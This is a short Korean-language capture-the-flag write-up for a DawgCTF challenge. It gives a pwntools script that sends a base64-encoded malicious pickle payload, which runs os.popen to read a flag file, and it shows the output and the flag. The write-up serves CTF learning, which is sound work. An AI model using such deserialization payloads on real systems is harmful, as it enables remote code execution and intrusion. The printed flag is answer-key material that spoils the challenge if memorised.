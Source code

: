 # [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**

![](images/2022-05-18-20-14-51.png)


# **Write-Up**

해당 주소로 접속하여 help를 처보면 사용할 수 있는 명령어들이 나온다.

![](images/2022-05-18-20-15-01.png)

import 명령어로 cat ~/flag.txt가 되는지 확인해본다.

![](images/2022-05-18-20-15-10.png)

다음과 같은 python 코드로 flag를 획득할 수 있다.

```py
from pwn import *
import base64
r = remote("umbccd.io", 4200)
r.recvuntil('>')
payload = base64.b64encode(b"c__builtin__\neval\n(S'print(__import__('os').popen('cat ~/flag.txt').read())'\ntR.")
r.sendline(b"import "+payload)
while True:
    flag = r.recv()
    if "DawgCTF{" in flag.decode():
        print(flag.decode())
        break

[Output]
[x] Opening connection to umbccd.io on port 4200
[x] Opening connection to umbccd.io on port 4200: Trying 167.172.155.117
[+] Opening connection to umbccd.io on port 4200: Done
DawgCTF{funn13st_s#$&_ive_3v3r_s33n}

Done!
##################
...
```


# **FLAG**

**DawgCTF{funn13st_s#$&_ive_3v3r_s33n}**